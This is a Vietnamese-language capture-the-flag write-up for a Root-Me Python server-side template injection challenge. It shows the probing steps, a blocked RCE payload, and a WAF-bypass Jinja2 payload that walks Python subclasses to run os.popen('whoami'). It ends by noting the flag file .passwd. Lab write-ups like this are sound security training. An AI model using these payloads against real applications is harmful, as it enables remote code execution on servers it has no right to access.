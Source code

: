 # Python - SSTI Introduction

**Tên challenge:** Python - SSTI Introduction

**Link challenge:** [Here](https://www.root-me.org/en/Challenges/Web-Server/Python-Server-side-Template-Injection-Introduction)

**Tác giả challenge:** Podalirius

**Mục tiêu challenge:** This service allows you to generate a web page. Use it to read the flag!

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, giao diện Website khá đơn giản, chỉ có 1 chức năng Render trang Web với 2 trường input:

![alt text](image.png)

**B2:** Ta thử nhập 2 giá trị cho `title` và `page content` lần lượt là `a` và `b`

Trang Web chuyển hướng ta sang 1 trang mới

![alt text](image-1.png)

Thông thường thì các lỗi bảo mật liên quan Render trang Web đến parameter rất nhiều ( Chẳng hạn như: XSS, SSTI,... ), cho nên ta sẽ thử từng trường hợp.

**B3:** Thử từng payload và ở cả 2 trường input. Cho đến khi ta thử đến payload `{{7*7}}` ở trường input `page content` thì trang Web trả về kết quả như sau:

![alt text](image-2.png)

=> Ta có thể tạm thời kết luận là trang Web bị SSTI nhưng liệu ta có thể RCE thông qua loại lỗi này không thì vẫn chưa thể kết luận. Vì rất có thể Website chỉ cho phép những câu thử đơn giản và filter những payload liên quan đến RCE, và để củng cố thêm kết luận này ta sẽ thử đến payload có thể giúp ta thực thi command.

**B4:** Thử payload RCE `{{request.application.__globals__.__builtins__.__import__('os').popen('whoami').read()}}`

![alt text](image-3.png)

=> Vậy là kết quả đã kết luận rằng Website có sử dụng WAF để ngăn chặn việc khai thác SSTI.

**B5:** Ta tiếp tục thử từng payload liên quan đến SSTI nhằm Bypass được cơ chế WAF của Website.

Cuối cùng, ta tìm được payload có thể thực thi Command như sau:
```
{% for x in ().__class__.__base__.__subclasses__() %}     {% if "warning" in x.__name__ %}         {{x()._module.__builtins__['__import__']('os').popen("whoami").read()}}     {%endif%} {%endfor%}
```

![alt text](image-4.png)

=> Ta đã thành công thực thi Command, việc tiếp theo là ta đọc file Flag thôi.

<u><b>Thông tin thêm:</b></u> Flag nằm ở thư mục hiện tại và nằm ở file `.passwd`